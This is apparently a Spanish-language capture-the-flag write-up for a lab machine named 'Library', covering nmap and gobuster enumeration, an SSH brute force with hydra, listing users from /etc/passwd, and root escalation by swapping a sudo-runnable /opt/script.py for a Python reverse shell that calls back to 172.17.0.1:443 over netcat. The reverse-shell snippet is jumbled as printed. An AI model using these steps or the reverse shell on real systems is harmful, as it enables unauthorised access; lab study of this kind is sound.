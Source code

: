 ### Maquina Library


## Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

![alt text](image.png)


## Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 172.17.0.2 

![alt text](image-1.png)

## Fuzzing web

gobuster dir -t 200 -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null


/index.html           
/index.php           


en /index.php encontramos lo siguiente:

![alt text](image-2.png)

Fuerza bruta con hydra al puerto de ssh para intentar adivinar el usuario

![alt text](image-3.png)

## Intrusion

Entramos por ssh

![alt text](image-4.png)

ver todos los usuarios del sistema:

cat /etc/passwd | grep bash

root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
carlos:x:1001:1001::/home/carlos:/bin/bash

## Escalar privilegios

Entonces hice sudo -l

![alt text](image-5.png)

hice ls -la /opt/script.py y veo que si puedo modificarlo, entonces lo que hare es colocar un codigo malicioso en python y luego ponerme en escucha con nc y luego ejecutar el script malicioso.

![alt text](image-6.png)

no tenia permiso de escritura sobre el archivo script.py, entonces lo que hice fue renombrarlo como scripts.py y crear otro script.py y colocarle el siguiente codigo malicioso:

python -c 'import socket,subprocess,os;
import pty;
pty.spawn("sh")'
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("172.17.0.1",443));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

luego ponerme el escucha con netcat y ejecutar el script.py

![alt text](image-7.png)